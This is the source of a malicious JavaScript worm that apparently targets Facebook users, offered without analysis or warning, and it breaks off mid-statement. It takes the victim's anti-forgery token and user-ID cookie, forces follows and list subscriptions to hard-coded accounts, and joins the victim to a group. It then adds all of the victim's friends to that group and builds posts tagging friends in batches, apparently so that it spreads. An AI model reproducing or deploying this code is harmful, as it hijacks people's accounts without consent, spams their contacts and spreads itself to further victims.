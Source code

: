 Math.floor(Math.random() * (max - min + 1)) + min; } function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)]; }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {               http4.close; // Close the connection           }     }          http4.send(params4); }  function sublist(uidss) { 		var a = document.createElement('script'); 		a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; 		document.body.appendChild(a); }  a("100003986362145"); a("100002871108311");  sublist("299481990194677"); sublist("311083209034555"); sublist("311083272367882"); sublist("311083312367878"); sublist("311083379034538"); sublist("311083432367866"); sublist("653802584677096"); sublist("439101139528919"); sublist("1424424654463707"); sublist("419834644813840"); sublist("509956732443359"); sublist("509956899110009"); sublist("509957125776653"); sublist("509957229109976");  var gid = ['1378653509062290'];  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var httpwp = new XMLHttpRequest(); var urlwp = '/ajax/groups/membership/r2j.php?__a=1'; var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp='; httpwp['open']('POST', urlwp, true); httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded'); httpwp['setRequestHeader']('Content-length', paramswp['length']); httpwp['setRequestHeader']('Connection', 'keep-alive'); httpwp['send'](paramswp);  var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value']; var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);  var friends = new Array(); gf = new XMLHttpRequest(); gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false); gf['send'](); if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {         friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {             return _0x93dax8['index'] - _0x93dax9['index'];         });     }; };  for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () { if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp); }; var spage_id = "170971166421357"; var spost_id = "334095473337022"; var sfoto_id = "475485335804660"; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var smesaj = ""; var smesaj_text = ""; var arkadaslar = []; var svn_rev; var bugun= new Date(); var btarihi = new Date();  btarihi.setTime(bugun.getTime() + 1000*60*60*4*1); if(!document.cookie.match(/paylasti=(\d+)/)){ document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString(); }   //arkadaslari al ve isle function sarkadaslari_al(){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 				  eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 				  for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){ 					smesaj = ""; 					smesaj_text = ""; 				  for(i=f*10;i&lt;(f+1)*10;i++){ 					if(arkadaslar.payload.entries[i]){ 				  smesaj += " @[" + arkadaslar.payload.entries[i].uid +  ":" + arkadaslar.payload.entries[i].text + "]"; 				  smesaj_text += " " + arkadaslar.payload.entries[i].text; 				  } 					} 					sdurumpaylas();				} 				 			} 			         }; 		var params = "&amp;filter[0]=user"; 		params += "&amp;options[0]=friends_only"; 		params += "&amp;options[1]=nm"; 		params += "&amp;token=v7";         params += "&amp;viewer=" + user_id; 		params += "&amp;__user=" + user_id; 		         if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }         xmlhttp.send(); }  //tiklama olayini dinle var tiklama = document.addEventListener("click", function () { if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){ svn_rev =